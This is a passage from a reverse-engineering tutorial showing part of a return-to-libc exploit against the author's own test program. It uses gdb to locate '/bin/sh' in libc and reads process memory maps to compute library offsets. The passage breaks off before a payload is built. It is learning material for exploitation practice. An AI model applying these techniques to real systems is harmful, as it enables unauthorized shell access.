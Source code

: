 ### Finding "/bin/sh"!

Finding "/bin/sh" is very similar to finding system's address. 

1. Open up the program in gdb and use the **find** command to find "/bin/sh". 

        gdb-peda$ find "/bin/sh"
        Searching for '/bin/sh' in: None ranges
        Found 1 results, display max 1 items:
        libc : 0xf7f50a0b ("/bin/sh")

        gdb-peda$ find "/bin/bash"
        Searching for '/bin/bash' in: None ranges
        Found 1 results, display max 1 items:
        [stack] : 0xffffd07a ("/bin/bash")

    * You can see we have got it! We have both "/bin/sh" and "/bin/bash". Let us use "/bin/sh" itself. You can use either of them.

    * Address of "/bin/sh" = **0xf7f50a0b**. Note that it is found in **libc**. 

    * Let us find in which address space this is found. Let us go back to the maps file. 

            f7df5000-f7fa5000 r-xp 00000000 08:02 25691233                           /lib/i386-linux-gnu/libc-2.23.so

    * It is found in the executable space of libc.so . Let us find the offset. 

            >>> 0xf7df5000 - 0xf7f50a0b
            -1423883

    * So, **binsh_offset = 1423883 bytes**. 


### Find addresses of system and /bin/sh

In this step, let us find the addresses of system and "/bin/sh" in the process when it is run normally. 

1. Let us run the program normally and look at it's maps file. 

        rev_eng_series/post_14$ ./defeat 
        Before calling func

    * Find the PID using **ps -e**. PID of my process is 23602. Let us look at maps. 

            rev_eng_series/post_14$ cat /proc/23602/maps
            08048000-08049000 r-xp 00000000 08:02 5507267                            /home/adwi/ALL/rev_eng_series/post_14/defeat
            08049000-0804a000 r--p 00000000 08:02 5507267                            /home/adwi/ALL/rev_eng_series/post_14/defeat
            0804a000-0804b000 rw-p 00001000 08:02 5507267                            /home/adwi/ALL/rev_eng_series/post_14/defeat
            0804b000-0806c000 rw-p 00000000 00:00 0                                  [heap]
            f7df4000-f7df5000 rw-p 00000000 00:00 0 
            f7df5000-f7fa5000 r-xp 00000000 08:02 25691233                           /lib/i386-linux-gnu/libc-2.23.so
            f7fa5000-f7fa7000 r--p 001af000 08:02 25691233                           /lib/i386-linux-gnu/libc-2.23.so
            f7fa7000-f7fa8000 rw-p 001b1000 08:02 25691233                           /lib/i386-linux-gnu/libc-2.23.so
            f7fa8000-f7fab000 rw-p 00000000 00:00 0 
            f7fd3000-f7fd4000 rw-p 00000000 00:00 0 
            f7fd4000-f7fd7000 r--p 00000000 00:00 0                                  [vvar]
            f7fd7000-f7fd9000 r-xp 00000000 00:00 0                                  [vdso]
            f7fd9000-f7ffc000 r-xp 00000000 08:02 25691229                           /lib/i386-linux-gnu/ld-2.23.so
            f7ffc000-f7ffd000 r--p 00022000 08:02 25691229                           /lib/i386-linux-gnu/ld-2.23.so